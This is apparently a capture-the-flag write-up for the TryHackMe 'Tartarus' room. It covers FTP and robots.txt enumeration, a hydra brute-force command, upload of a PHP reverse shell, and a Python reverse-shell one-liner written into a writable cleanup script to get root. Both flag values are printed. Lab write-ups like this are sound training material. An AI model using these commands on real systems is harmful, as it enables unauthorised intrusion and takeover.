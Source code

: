 # Tartarus

Room: Tartarus

Link: https://tryhackme.com/room/tartaraus

TARGET IP: 10.10.13.146

*SCANNING

  Nmap scan results:
    
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.2p2 
    80/tcp open  http    Apache httpd 2.4.18

*ENUMERATION

 ftp anonymous login is allowed and after logging in we go to ... and then again ... directory
 <img src="screenshots/ftplogin.png">
  we get /sUp3r-s3cr3t directory 

 
Go to robots.txt 
  User-Agent: *
  Disallow : /admin-dir

  I told d4rckh we should hide our things deep.
Go to /admin-dir

  Download the files using :
  wget http://10.10.13.146/admin-dir/credentials.txt
  wget http://10.10.13.146/admin-dir/userid
  
  u will get to files
  user id and credentials.txt
  
 There is a login page and we have the userid and credentials.txt file. We can try and bruteforce the login page via hydra.

  use hydra bruteforce /sUp3r-s3cr3t
   
    hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"

     HYDRA IMAGE

    After logging in we get into home.php where we can upload files. Upload the script for reverse shell here.

    Start the listener on your machine

    Uploading the reverse shell php script on the page 
    Download the script from here:

    http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

we need to find the uploads directory to run our script
Now we run the directory scan 
 
 So we find the images directory with dirb and here is the upload folder open it and run the script.
 Now we got our reverse shell.

  go to home/d4rckh 
  You got the user flag! 0f7dbb2243e692e3ad222bc4eff8521f
 Now let's hunt for the root flag
 Looking at the permissions of files cleanup.py we find it has write permissions too.
 Lets modify it for privileged reverse shell
    printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.18.39",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py

    Also setup a listener port nc -lvnp 5555
    

    So we get our root shell

    And finally the root flag! 
    7e055812184a5fa5109d5db5c7eda7cd

    
